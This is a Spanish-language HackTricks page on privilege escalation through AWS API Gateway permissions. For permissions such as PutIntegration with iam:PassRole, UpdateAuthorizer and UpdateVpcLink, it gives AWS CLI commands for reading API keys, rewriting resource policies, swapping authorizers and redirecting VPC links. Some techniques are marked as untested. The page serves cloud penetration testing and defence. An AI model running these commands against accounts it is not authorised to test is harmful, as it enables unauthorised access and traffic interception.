 # AWS - Escalada de privilegios en Apigateway

{% hint style="success" %}
Aprende y practica Hacking en AWS: <img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}

## Apigateway

Para más información, consulta:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### `apigateway:POST`

Con este permiso puedes generar claves API de las APIs configuradas (por región).
```bash
aws --region <region> apigateway create-api-key
```
**Impacto Potencial:** No puedes escalar privilegios con esta técnica, pero podrías obtener acceso a información sensible.

### `apigateway:GET`

Con este permiso puedes obtener las claves de API generadas de las APIs configuradas (por región).
```bash
aws --region <region> apigateway get-api-keys
aws --region <region> apigateway get-api-key --api-key <key> --include-value
```
**Impacto Potencial:** No puedes escalar privilegios con esta técnica, pero podrías obtener acceso a información sensible.

### `apigateway:UpdateRestApiPolicy`, `apigateway:PATCH`

Con estos permisos, es posible modificar la política de recursos de una API para darte acceso a llamarla y abusar del acceso potencial que el API Gateway pueda tener (como invocar una lambda vulnerable).

{% code overflow="wrap" %}
```bash
aws apigateway update-rest-api \
--rest-api-id api-id \
--patch-operations op=replace,path=/policy,value='"{\"jsonEscapedPolicyDocument\"}"'
```
{% endcode %}

**Impacto potencial:** Por lo general, no podrás realizar una escalada de privilegios directamente con esta técnica, pero podrías obtener acceso a información sensible.

### `apigateway:PutIntegration`, `apigateway:CreateDeployment`, `iam:PassRole`

{% hint style="info" %}
Necesita ser probado
{% endhint %}

Un atacante con los permisos `apigateway:PutIntegration`, `apigateway:CreateDeployment` e `iam:PassRole` puede **agregar una nueva integración a una API Gateway REST API existente con una función Lambda que tenga un rol IAM adjunto**. El atacante luego puede **activar la función Lambda para ejecutar código arbitrario y potencialmente obtener acceso a los recursos asociados con el rol IAM**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"
LAMBDA_ROLE_ARN="arn:aws:iam::account-id:role/lambda-role"

# Add a new integration to the API Gateway REST API
aws apigateway put-integration --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --type AWS_PROXY --integration-http-method POST --uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations --credentials $LAMBDA_ROLE_ARN

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Impacto potencial**: Acceso a recursos asociados con el rol IAM de la función Lambda.

### `apigateway:UpdateAuthorizer`, `apigateway:CreateDeployment`

{% hint style="info" %}
Necesita ser probado
{% endhint %}

Un atacante con los permisos `apigateway:UpdateAuthorizer` y `apigateway:CreateDeployment` puede **modificar un autorizador existente de API Gateway** para evadir controles de seguridad o ejecutar código arbitrario cuando se realizan solicitudes a la API. 

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
AUTHORIZER_ID="your-authorizer-id"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"

# Update the API Gateway authorizer
aws apigateway update-authorizer --rest-api-id $API_ID --authorizer-id $AUTHORIZER_ID --authorizer-uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Impacto potencial**: Saltarse controles de seguridad, acceso no autorizado a recursos de la API.

### `apigateway:UpdateVpcLink`

{% hint style="info" %}
Necesita ser probado
{% endhint %}

Un atacante con el permiso `apigateway:UpdateVpcLink` puede **modificar un VPC Link existente para que apunte a un Balanceador de Carga de Red diferente, redirigiendo potencialmente el tráfico de la API privada a recursos no autorizados o maliciosos**.
```bash
bashCopy codeVPC_LINK_ID="your-vpc-link-id"
NEW_NLB_ARN="arn:aws:elasticloadbalancing:region:account-id:loadbalancer/net/new-load-balancer-name/50dc6c495c0c9188"

# Update the VPC Link
aws apigateway update-vpc-link --vpc-link-id $VPC_LINK_ID --patch-operations op=replace,path=/targetArns,value="[$NEW_NLB_ARN]"
```
**Impacto Potencial**: Acceso no autorizado a recursos de API privados, intercepción o interrupción del tráfico de la API.

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}
